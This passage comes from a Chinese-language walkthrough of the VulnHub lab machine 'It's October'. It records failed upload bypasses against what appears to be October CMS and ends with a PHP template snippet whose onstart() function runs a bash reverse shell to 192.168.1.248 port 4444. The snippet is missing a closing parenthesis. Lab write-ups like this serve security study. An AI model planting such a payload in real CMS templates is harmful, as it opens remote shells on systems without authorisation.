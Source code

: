     看来不好利用这个

- **.htaccess 上传**

    不出所料,同样无法上传

    ![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/It’s_October/It’s_October1/14.png)

- **PHP code execution via asset management**

    本质上还是 php5 后缀绕过,还是无法利用

    ![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/It’s_October/It’s_October1/15.png)

---

后来搜了一下在新建页面时可以在模板中注入 php 代码

```php
function onstart(){
              exec("/bin/bash -c 'bash -i > /dev/tcp/192.168.1.248/4444 0>&1'";
}
```
